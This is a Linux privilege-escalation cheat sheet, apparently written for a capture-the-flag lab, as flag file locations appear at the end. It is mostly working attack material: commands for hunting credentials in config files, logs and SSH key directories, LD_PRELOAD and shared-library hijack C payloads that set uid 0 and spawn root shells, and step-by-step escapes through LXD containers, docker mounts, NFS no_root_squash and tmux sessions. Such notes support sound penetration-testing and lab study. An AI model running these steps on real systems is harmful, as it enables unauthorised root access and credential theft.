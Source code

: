 List current processes:
```shell
ps au
```

List user's privileges:
```shell
sudo -l
```

List cron jobs:
```shell
ls -la /etc/cron.daily/
```

List file systems and additional drives:
```shell
lsblk
```

Find writable directories:
```shell
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

Find writable files:
```shell
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

# Kernel Exploit
---
Compile exploit:
```shell
gcc kernel_expoit.c -o kernel_expoit && chmod +x kernel_expoit
```

# Screen
---
Get screen version:
```shell
screen -v
```

# CronJob Abuse
---
Check if cronjob is running:
```shell
./pspy64 -pf -i 1000
```

# Special Permissions
---
Find suid binaries:
```shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Find setguid binaries:
```shell
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

# Searching for Credentials
---
Searching for wordpress credentials in wp_config:
```shell
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

Find credentials in webroot:
```shell
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

Check for ssh keys in .ssh:
```shell
ls ~/.ssh
```

# Shared Libraries
---
List shared objects with ldd:
```shell
ldd /bin/ls
```

LD_PRELOAD exploit example:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Compile LD_PRELOAD example:
```shell
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

# Shared Object Hijacking
---
Exploiting vulnerable function in object example:
```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

Compile exploit:
```shell
gcc src.c -fPIC -shared -o /development/libshared.so
```

# LDC/LXC
---
Unxip the alpine image:
```shell
unzip alpine.zip
```

Start the lxd initialization:
```shell
lxd init
```

Import the local image:
```shell
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

Start a privileged container:
```shell
lxc init alpine r00t -c security.privileged=true
```

Mount the host file system:
```shell
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

Start the container instance and run a root shell:
```shell
lxc start r00t
lxc exec r00t /bin/sh
```

# Docker
---
Members of the docker group can create privileged containers and mount to the root of the filesystem:
```shell
docker run -v /root:/mnt -it ubuntu
```

# Disk
---
Members of the disk group have full access to devices in /dev (like /dev/sda1) and can therefore access the entire filesystem:
```shell
debugfs
```

# ADM
---
Members of the adm group can read logs in /var/logs, which often contain credentials:
```shell
find /var/log --group adm
```

# Weak NFS Privileges
---
Some volumes may have been created with the no_root_squash flag, which allows low-privileged users to create files as the root user:
```shell
cat /etc/exports
gcc shell.c -o shell
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
./shell
```

# Hijacking Tmux Sessions
---
Some tmux sessions may still be running as a privileged and can be hijacked:
```shell
ps aux | grep tmux
ls -la /shareds
tmux -S /shareds
```
/home/barry/flag2.txt
flag3 in /var/log/tomcat
flag4 in /var/lib/tomcat9/
